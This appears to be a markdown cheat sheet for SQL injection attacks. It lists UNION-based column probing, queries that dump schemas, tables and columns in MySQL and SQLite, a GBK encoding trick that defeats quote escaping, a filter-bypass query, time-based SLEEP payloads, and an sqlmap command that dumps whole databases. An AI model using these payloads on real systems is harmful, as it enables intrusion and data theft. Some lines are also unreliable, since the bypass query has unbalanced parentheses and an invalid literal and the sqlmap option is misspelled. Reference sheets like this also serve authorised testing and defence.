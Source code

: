 # SQL injection

## Comments
MySQL interprets `#` and `--` as the beginning of comments

## Identifying the vulnerability
Quotes are always a good way to start
### Union based
##### Identitfy the number of parameters retrieved from the legal request

```sql
0 UNION SELECT null,null                # ERROR
0 UNION SELECT null,null,null           # ERROR
0 UNION SELECT null,null,null,null      # ERROR
0 UNION SELECT null,null,null,null,null # Returns a valid response
```

### Dumping schemas
*MySQL*
```sql
SELECT DISTINCT table_schema FROM information_schema.tables;
```
### Dumping tables
*MySQL*
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='SCHEMA_NAME_HERE';
```
*SQLite3*
```sql
SELECT tbl_name FROM sqlite_master
```

### Dumping columns
*MySQL*
```sql
SELECT column_name FROM information_schema.columns WHERE table_schema='SCHEMA_NAME_HERE' AND table_name='TABLE_NAME_HERE';
```
*SQLite3*
```sql
SELECT name FROM PRAGMA_TABLE_INFO('TABLE_NAME_HERE');
```


# GBK

SQL injection may appears when using GBK encoding. If `'` are escaped with a `\`, we can use GBK encoding to insert a value before the `'` so the payload looks like `something\'`. 
The point is that some GBK chars are like XX5C where 5C is the hex value of `\`. 

So the injection may be interpreted as `縗'` (GBK value of 0xbf5c27 a.k.a `¿\'` in ASCII ) and so the quote is not escaped anymore



## WAF

### Bypass simple quotes
*SQLite3*
- using hex(hex()), cast and substr() functions
```sql
SELECT tbl_name FROM sqlite_master WHERE hex(substr(tbl_name,1,1))=(SELECT CAST ($41$ AS TEXT)
```

## Useful functions
```sql
group_concat()
substr("string",INDEX,LENGTH)
hex()
cast(integer AS TEXT)
cast("0123" as INT)
```


## Time based SQLi 
This happens when nothing is returned by the request.
If the request come back after a given time, it worked.

```sql
SELECT SLEEP(5);
SELECT SLEEP(5),null,null;
```


## TOOLS :
- SQLmap
It needs to capture a request with burp and put it in request.txt
```bash
sqlmap -r request.txt --dbms-mysql --dump
```
- NMap
```bash
nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 <host>
```



